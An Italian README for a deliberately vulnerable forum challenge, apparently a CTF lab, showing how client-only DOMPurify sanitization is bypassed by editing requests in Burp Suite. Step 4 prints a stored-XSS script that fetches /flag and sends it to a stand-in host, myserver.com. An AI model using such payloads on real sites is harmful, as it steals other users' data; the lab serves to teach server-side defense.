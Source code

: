 # Challenge 4 - Stored XSS con Sanitizzazione Lato Client

Questa challenge si concentra sul pericolo di implementare controlli di sicurezza **solo lato client**, dimostrando come questi possano essere facilmente bypassati.

## Descrizione
L'applicazione è un forum che permette agli utenti di postare commenti con stile personalizzato (colore del testo) e immagini.

A differenza di challenge precedenti, questa applicazione implementa una protezione **avanzata** lato client utilizzando **DOMPurify**, una libreria molto efficace per la sanitizzazione dell'input. Tuttavia, non c'è alcuna sanitizzazione lato server.

## Obiettivo
- Sfruttare la vulnerabilità causata dall'assenza di controlli lato server
- Bypassare la protezione client tramite strumenti di intercettazione come Burp Suite
- Eseguire un attacco XSS Stored per ottenere la flag dall'admin

## Il Problema

Il forum implementa una perfetta sanitizzazione lato client usando DOMPurify, una delle librerie più efficaci per prevenire XSS. Tuttavia, l'applicazione commette un errore critico:

**Non implementa alcuna protezione lato server.**

Questo significa che, sebbene il form sul browser sanitizzi perfettamente l'input prima dell'invio, un attaccante può intercettare e modificare la richiesta HTTP dopo la sanitizzazione, inserendo codice JavaScript dannoso che verrà eseguito quando visualizzato da altri utenti.

## Come Bypassare la Protezione

1. Utilizza uno strumento come Burp Suite per intercettare la richiesta HTTP
2. Modifica i parametri della richiesta POST dopo che sono stati sanitizzati dal client
3. Inserisci il payload XSS direttamente nella richiesta modificata
4. Il server accetterà il payload senza alcuna sanitizzazione

## Esempio di Attacco

1. Registra un account sul forum
2. Configura Burp Suite (o un altro proxy) per intercettare le richieste
3. Scrivi un commento e invialo mentre intercetti la richiesta
4. Modifica il campo 'content' nella richiesta con un payload XSS, ad esempio: (sostituisci `https://myserver.com` con il tuo server per ricevere la flag, beeceptor è un'opzione veloce per testare)
   ```html
   <script>fetch('/flag').then(r=>r.text()).then(t=>fetch('https://myserver.com?f='+encodeURIComponent(t)))</script>
   ``` (naturalmente va codificato il tutto in URL)
5. Invia la richiesta modificata
6. Quando l'admin visita la pagina, il tuo script verrà eseguito e la flag verrà inviata al tuo server

## Cosa Imparare
Questa challenge dimostra:
- L'importanza della "difesa in profondità" - non affidare mai la sicurezza solo alle protezioni client
- Come gli attaccanti possono bypassare facilmente i controlli client
- Perché è fondamentale implementare controlli di sicurezza lato server

## Avvio del Server
```bash
docker build -t xss-ch4 .
docker run -p 5000:5555 xss-ch4
```

Buona fortuna! 